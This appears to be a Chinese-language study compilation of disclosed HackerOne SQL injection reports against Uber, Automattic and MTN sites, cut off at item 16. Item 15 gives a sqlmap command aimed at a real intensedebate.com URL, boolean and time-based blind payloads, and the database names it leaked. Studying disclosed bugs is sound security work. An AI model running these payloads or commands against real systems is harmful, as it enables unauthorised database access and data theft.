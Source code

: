 ### 14. Mysql | GET | 时间盲注

[Uber | Report #476150 - SQLI on desafio5estrelas.com | HackerOne](https://hackerone.com/reports/476150)

### 15. GET | Mysql | 布尔/时间盲注

[Automattic | Report #1069561 - SQL Injection intensedebate.com | HackerOne](https://hackerone.com/reports/1069561)

#### 漏洞入口：

- **参数位置**：`GET` 参数
- **可疑参数**：`acctid`

#### 自动化验证：

使用 sqlmap 工具进行自动化检测与验证，命令如下：

```
sqlmap --url https://www.intensedebate.com/js/importStatus.php?acctid=1 --dbs
```

#### 注入类型与 Payload：

- **布尔盲注**

  ```
  acctid=1 AND 1726=1726
  ```

  当注入条件为真时页面响应正常，条件为假时响应异常，证明存在 SQL 注入。

- **时间盲注**

  ```
  acctid=1 AND (SELECT 8327 FROM (SELECT(SLEEP(5)))yrDl)
  ```

  页面响应延迟约 5 秒，进一步确认数据库执行了 sleep 函数，证明为可控 SQL 执行环境。

#### 数据库信息泄露：

sqlmap 自动获取到以下数据库：

```
plaintext复制编辑[*] heartbeat
[*] id_comments
[*] information_schema
```

此信息表明攻击者可枚举系统中全部数据库结构并进行进一步攻击。

### 16. COOKIE注入 | 普通回显型

[MTN Group | Report #761304 - SQL Injection on cookie parameter | HackerOne](https://hackerone.com/reports/761304)

#### 漏洞验证请求示例:
